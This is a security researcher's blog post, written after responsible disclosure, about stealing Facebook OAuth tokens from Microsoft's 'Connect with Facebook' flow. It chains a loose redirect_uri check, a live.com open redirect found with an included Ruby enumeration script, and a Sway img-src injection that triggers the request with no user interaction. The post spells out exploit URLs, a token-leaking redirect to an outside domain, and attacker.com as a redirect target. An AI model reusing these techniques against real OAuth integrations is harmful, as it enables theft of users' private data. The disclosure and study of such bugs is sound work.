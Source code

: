 ```yaml
---
layout: post

title: "Stealing OAuth tokens in Microsoft web applications"
subtitle: ""
cover_image: microsoft/microsoft.jpg

excerpt: "Wide redirect_uri parameter in the OAuth process allows an attacker to leak the Facebook OAuth token and steal user private information "

author:
  name: Lorenzo Fontana
  twitter: r0rshark
  gplus: 110104859248839601734
  bio: Bug hunter and student at Polimi
  image: me.png
facebook:
  sharelink: /2015/09/06/microsoft

---
```


### TL;DR
The Connect with Facebook functionality of Microsoft is vulnerable to the OAuth Covert Redirect attack.
The ``redirect_uri`` parameter can be modified by the attacker making the Facebook OAuth token leak to a domain not controlled by Microsoft and in this way steal user private information accessible through the token.

### OAUTH GUIDE ###

A basic undestanding of the OAuth flow is useful to better understand this post, a very good guide can be found [here](https://www.digitalocean.com/community/tutorials/an-introduction-to-oauth-2). When reading the guide focus the attention on "Grant Type: Authorization Code" and the "Grant Type: Implicit" which are by far the most common approaches.



### PROBING FOR WIDE REDIRECT_URI ###
The ``redirect_uri`` parameter is very important because it represents the url to which the authorization_code/access_token (based on Grant Type) is sent. If we are able to change the value of the ``redirect_uri`` and not to make the OAuth flow to fail (because of authenticity checks on the ``redirect_uri``) we could leak the token/code to a domain controlled by us.
Original request:

``https://www.facebook.com/v2.0/dialog/oauth?client_id=441348565910475``<br>
``&redirect_uri=``**https://profile.live.com/cid-847183e5db31faa2/services**<br>
``&scope=user_photos``

Possible redirect_url:

- **Completely different domain**:  redirect_uri=``https://attacker.com``;
- **Different subdomain**: redirect_uri=https://``xxx.live.com``/cid-847183e5db31faa2/services;
- **Different folder**: redirect_uri= https://profile.live.com``/xxx``;

The use of a completely different domain is very unlikely to work while in some cases the use of a different folder or subdomain is allowed. Our current payload is:

``https://www.facebook.com/v2.0/dialog/oauth?client_id=441348565910475``<br>
``&redirect_uri=``**https://xxx.live.com/xxx**<br>
``&scope=user_photos``

### SEARCHING FOR OPEN REDIRECT ###
The ability to leak the the token/code to a different subdomain/folder is not useful per se, however it will provide to the attacker **a wider attack surface** to find an Open Redirect. An Open Redirect endpoint is a url which redirects the user to a parameter value without any validation. The idea is to **find an Open Redirect in \*.live.com/\*** which would leak the token to a domain that we can control.

After some google dorking I have noticed that the endpoint:
  ``g.live.com/0HE_TRACKSTAR_ENUS9/\<number\>`` issues a 302 Redirect to external domains based on  ``\<number\>``.<br>
For example ``g.live.com/0HE_TRACKSTAR_ENUS9/1``<br>
redirects to ``http://www.msn.com/it-it/``<br>
Through a 30 line of ruby script I have enumerated the possible domains to which I could leak the token
{% highlight ruby %}

require "net/http"
require "uri"
require 'cgi'

if ARGV.length < 4
  puts "url_brute.rb <url to bruteforce> <start number> <end number> <file where to write>"
  exit
end

base_url = ARGV[0]
start = ARGV[1]
ending = ARGV[2]
file_path = ARGV[3]

uri = URI.parse(base_url)
http = Net::HTTP.new(uri.host, uri.port)
file = File.open(file_path, "a")

start.upto(ending){|id|
  uri = URI.parse(base_url+id.to_s)
  request = Net::HTTP::Get.new(uri.request_uri)
  begin
    response = http.request(request)
    found_url = response["Location"].to_s
  rescue
    found_url = id.to_s+ " Timeout"
    next
  end
  file.write(id.to_s+ " "+found_url+"\n")
  puts id.to_s+ " " + found_url

}
file.close()

{% endhighlight %}

Among these domains there are some which can be purchased like g.live.com/0HE_TRACKSTAR_CSCZ9/75011 which redirects to http://staysafe.org/.
Making the  user issue a GET request to ``https://www.facebook.com/v2.0/dialog/oauth?redirect_uri=http://g.live.com/0HE_TRACKSTAR_CSCZ9/75011&display=popup``<br>
``&scope=user_photos+user_videos&client_id=441348565910475&ret=login`` will leak the token/code to http://staysafe.org/.


###CHANGING THE FLOW###
Referencing to the guide that I have pointed out before the ``Grant Type`` used by Microsoft is the ``Authorization Code`` one. Using the exploit we can leak the ``Authorization Code`` but in order to access the protected information we need to exchange the ``Authorization code`` with the ``Access Token``. However in order to do this we need to know the ``client secret`` which we aren't able to get since it is stored on the Microsoft servers. In order to bypass this limitation we can change ``Grant Type`` to the Implicit one which directly provides the ``Access Token`` to the url in the redirect_url field.
With the Facebook SDK this can be done by **adding the parameter response_type=token**.

###STEALING THE TOKEN###
An attaker could:

1. Purchased the domain ``http://staysafe.org/``;
2. Insert a small javascript script at staysafe.org to get the window.location.hash and parse it to ``extract the token``;
3. Make the victim issue a GET request to ``https://www.facebook.com/v2.0/dialog/oauth?redirect_uri=http://g.live.com/0HE_TRACKSTAR_CSCZ9/75011&display=popup``<br>
``&scope=user_photos+user_videos&client_id=441348565910475&ret=login&response_type=token``.

###TRIGGER THE EXPLOIT WITHOUT INTERACTION###
The Connect with Facebook functionality can be used in the Microsoft Sway application where I found a second vulnerability which would allow an attaker to make the user issue arbitrary GET requests by just viewing a "sway".
This is possible because, crafting a particular request in the Add image functionality, an attacker is able to persistently control the src attribute of an img tag. I tried to exploit this kind of vulnerability to get an XSS however the quotes were escaped and the ``javascript:alert(1)`` payload in the img src attribute doesn't work in the modern browsers. However we can use this vulnerability to automatically make the user issue our "exploit GET request" triggering our exploit as soon as he view a maliciously crafted "sway".

<div class="full zoomable">
  <img src="/images/microsoft/sway_poc.png">
</div>

- 15 May 2015 Vulnerability reported to the Microsoft Security Team
- 4 August 2015 Vulnerability patched
- 25 August 2015 Got reward of $1000





